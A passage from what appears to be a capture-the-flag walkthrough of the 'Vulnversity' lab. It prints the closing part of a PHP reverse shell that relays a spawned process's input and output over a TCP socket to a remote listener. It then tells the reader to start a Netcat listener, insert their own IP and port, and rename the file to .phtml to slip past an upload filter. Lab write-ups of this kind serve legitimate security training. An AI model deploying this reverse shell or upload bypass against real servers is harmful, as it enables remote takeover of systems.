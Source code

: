 ```php
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

*   start a Netcat listener

    <img src="../Vulnversity/images/Untitled 12.png" alt="Untitled" data-size="original">
* change the IP and the port number in the reverse shell to your IP and listening port
*   change the file extension to phtml so we can upload it
